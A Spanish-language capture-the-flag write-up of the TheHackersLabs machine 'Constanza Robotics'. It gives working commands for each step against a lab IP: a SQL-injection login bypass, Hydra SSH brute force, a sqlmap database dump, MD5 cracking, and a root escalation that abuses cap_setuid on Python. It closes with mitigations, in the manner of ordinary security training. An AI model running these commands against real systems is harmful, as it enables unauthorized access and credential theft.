## Información General

| Campo               | Detalle                                   |
| ------------------- | ----------------------------------------- |
| Máquina             | Constanza Robotics                        |
| Plataforma          | TheHackersLabs                            |
| Dificultad          | Facil                                     |
| Sistema Operativo   | Debian GNU/Linux                          |
| Servicios expuestos | SSH (22), HTTP (80), MySQL/MariaDB (3306) |
| Autor               | elc0ket                                   |

## Resumen del Ataque

El punto de entrada fue un formulario de login vulnerable a inyección SQL que permitió saltarse la autenticación y acceder como el usuario `pperez`. En paralelo, un ataque de fuerza bruta contra SSH con Hydra confirmó una contraseña débil (`barcelona`) para esa misma cuenta. La explotación completa de la inyección SQL con `sqlmap` permitió volcar la base de datos `corp`, obteniendo hashes MD5 de seis usuarios; al crackearlos con John the Ripper se confirmó que las contraseñas del sistema web se reutilizaban en el servicio SSH. Con acceso por SSH como `pperez` se localizó un binario (`/opt/maint/pybackup`) con la capability `cap_setuid=ep`, lo que permitió ejecutar código Python arbitrario con `setuid(0)` y obtener una shell como `root`.

## Técnicas Usadas

- Escaneo de puertos y servicios con Nmap
- Enumeración de directorios/ficheros web con Dirsearch
- Bypass de autenticación mediante SQL Injection
- Fuerza bruta de credenciales SSH con Hydra
- Extracción de base de datos con SQLmap (`--dbs`, `--tables`, `--columns`, `--dump`)
- Cracking de hashes MD5 con John the Ripper
- Reutilización de credenciales (web → SSH)
- Escalada de privilegios abusando de Linux capabilities (`cap_setuid`) en un intérprete Python

## Desarrollo

### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.159
```



### 2. Enumeración de servicios

```
nmap -p 22,80,3306 -sC -sV -oN allports 192.168.241.159 
```



### 3. Exploración web

Visita al sitio principal y revisión del código fuente. Se trata de una web corporativa estática (Apache) sin funcionalidad relevante visible a simple vista.

```
http://192.168.241.159/
```



### 4. Descubrimiento de directorios

```
dirsearch -u http://192.168.241.159/ --exclude-status 403,404,500 -e php,txt,html
```



Se localiza `/login.php`, un formulario de autenticación no enlazado desde la web pública.



### 5. Bypass de autenticación por SQL Injection

Prueba manual de inyección clásica en el campo de usuario:

```
'or 1=1 -- -
```

Resultado: sesión iniciada como `pperez` (rol: user), confirmando que el login es vulnerable.



### 6. Fuerza bruta SSH (vía paralela)

En paralelo a la explotación de la inyección, se prueba fuerza bruta directa contra SSH sobre el usuario ya identificado:

```
hydra -l pperez -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.159 -t 4
```



Esta vía ya habría bastado para obtener acceso, pero se continúa con la explotación completa de la inyección SQL para caracterizar la vulnerabilidad y el resto de cuentas.

### 7. Explotación completa con SQLmap

Enumeración de bases de datos:

```
sqlmap -u "http://192.168.241.159/login.php" --forms --batch --dbs --ignore-code 401
```



Enumeración de tablas en `corp`:

```
sqlmap -u "http://192.168.241.159/login.php" --forms --batch -D corp --tables --ignore-code 401
```



Columnas de la tabla `users`:

```
sqlmap -u "http://192.168.241.159/login.php" --forms --batch -D corp -T users --columns --ignore-code 401
```



Volcado completo:

```
sqlmap -u "http://192.168.241.159/login.php" --forms --batch -D corp -T users -C id,username,password,role --dump --ignore-code 401
```



### 8. Cracking de hashes

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=raw-md5
```



La contraseña obtenida para `pperez` coincide con la encontrada previamente por fuerza bruta en SSH, confirmando la reutilización de credenciales entre el sitio web y el servicio SSH.

### 9. Acceso por SSH

```
ssh pperez@192.168.241.159
```

```
pperez@TheHackersLabs:~$ whoami
```



```
pperez@TheHackersLabs:~$ cat user.txt 
```



### 10. Enumeración de escalada de privilegios

Usuarios con shell válida:

```
pperez@TheHackersLabs:~$ grep bash /etc/passwd
```



Permisos sudo (sin privilegios):

```
pperez@TheHackersLabs:~$ sudo -l
```



Búsqueda de binarios SUID (nada explotable):

```
pperez@TheHackersLabs:~$ find / -perm -4000 -type f 2>/dev/null
```



Búsqueda de capabilities aquí aparece el vector real:

```
pperez@TheHackersLabs:~$ getcap -r / 2>/dev/null
```



```
pperez@TheHackersLabs:~$ ls -la /opt/maint/
```



`pybackup` es un intérprete Python empaquetado (binario standalone) con la capability `cap_setuid`, lo que permite invocar `setuid(0)` desde código arbitrario pasado como argumento.

### 11. Escalada de privilegios

```
pperez@TheHackersLabs:~$ /opt/maint/pybackup -c 'import os; os.setuid(0); os.execl("/bin/bash","bash")'
```

```
root@TheHackersLabs:~# whoami
```



```
root@TheHackersLabs:/# cd /root
root@TheHackersLabs:/root# cat root.txt
```



## Lecciones Aprendidas

- Un login sin sanitizar (`'or 1=1 -- -`) permite tanto bypass de autenticación como exfiltración completa de la base de datos vía `sqlmap`.
- El hashing MD5 sin salt es trivialmente crackeable con diccionario contra contraseñas comunes.
- La reutilización de contraseñas entre el panel web y el acceso SSH convirtió una vulnerabilidad web en compromiso total del sistema.
- Asignar la capability `cap_setuid` a un intérprete de scripting (Python) equivale, en la práctica, a otorgar una vía directa a `root` para cualquier usuario que pueda ejecutar ese binario.

## Medidas de Mitigación

- Usar consultas parametrizadas / prepared statements en todos los formularios de autenticación.
- Almacenar contraseñas con algoritmos de hashing lentos y con salt (bcrypt, scrypt o Argon2), nunca MD5.
- Prohibir la reutilización de contraseñas entre servicios distintos (web y SSH deben tener credenciales independientes).
- No asignar capabilities potentes (`cap_setuid`, `cap_setgid`, etc.) a intérpretes genéricos (Python, Perl, etc.); si un script necesita privilegios elevados, encapsularlo en un binario compilado con la lógica mínima estrictamente necesaria.
- Auditar periódicamente binarios con capabilities (`getcap -r /`) igual que se audita el bit SUID.

